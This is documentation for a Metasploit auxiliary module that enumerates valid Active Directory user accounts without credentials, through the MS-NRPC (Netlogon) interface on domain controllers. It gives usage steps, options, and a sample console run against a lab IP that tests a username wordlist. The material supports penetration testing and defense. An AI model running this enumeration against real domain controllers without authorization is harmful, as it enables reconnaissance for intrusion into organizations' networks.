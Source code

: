 ## Vulnerable Application

A new method for gathering domain users. The method leverages auth-level = 1 (No authentication) against the
MS-NRPC (Netlogon) interface on domain controllers. All that's required is the domain controller's IP address,
and the entire process can be completed without providing any credentials.

## Verification Steps

1. Do: `use auxiliary/gather/nrpc_enumusers`
2. Do: `set RHOSTS <targer IP addresses>`
3. Do: `set USER_FILE <path to your users list>`
4. Do: `run`


## Target

To use nrpc_enumusers, make sure you are able to connect to the Domain Controller.
It has been tested with Windows servers 2012, 2016, 2019 and 2022

## Options

### USER_FILE

**Description:** Path to the file containing the list of usernames to enumerate. Each username should be on a separate line.

**Usage:** Provide the path to the file that contains the list of user accounts you want to test.

**Example:** `set USER_FILE /path/to/usernames.txt`

2- `RHOSTS` (required)

**Description:** The target IP address or range of IP addresses of the Domain Controllers.

**Usage:** Specify the IP address or addresses of the Domain Controllers you are targeting.

**Example:** `set RHOSTS 192.168.1.100`

3- `RPORT` (optional)

**Description:** The port for the MS-NRPC interface. If not specified, the module will attempt to determine the endpoint.

**Usage:** If you know the port used by the MS-NRPC interface, you can specify it. Otherwise, the module will find it automatically.

**Example:** `set RPORT 49664`

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user accounts.

Create a new `./users.txt` file, then run the module:

```
msf6 auxiliary(gather/nrpc_enumusers) > set RHOSTS 192.168.177.177
RHOSTS => 192.168.177.177
msf6 auxiliary(gather/nrpc_enumusers) > set USER_FILE users.txt 
USER_FILE => users.txt
msf6 auxiliary(gather/nrpc_enumusers) > run

[*] 192.168.177.177: - Connecting to the endpoint mapper service...
[*] 192.168.177.177: - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.177.177[49664]...
[-] 192.168.177.177: - Tiffany.Molina does not exist
[-] 192.168.177.177: - SMITH does not exist
[-] 192.168.177.177: - JOHNSON does not exist
[-] 192.168.177.177: - WILLIAMS does not exist
[-] 192.168.177.177: - Administratorsvc_ldap does not exist
[-] 192.168.177.177: - svc_ldap does not exist
[-] 192.168.177.177: - ksimpson does not exist
[+] 192.168.177.177: - Administrator exists
[-] 192.168.177.177: - James does not exist
[-] 192.168.177.177: - nikk37 does not exist
[-] 192.168.177.177: - svc-printer does not exist
[-] 192.168.177.177: - SABatchJobs does not exist
[-] 192.168.177.177: - e.black does not exist
[-] 192.168.177.177: - Kaorz does not exist
[*] 192.168.177.177: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/nrpc_enumusers) >
```
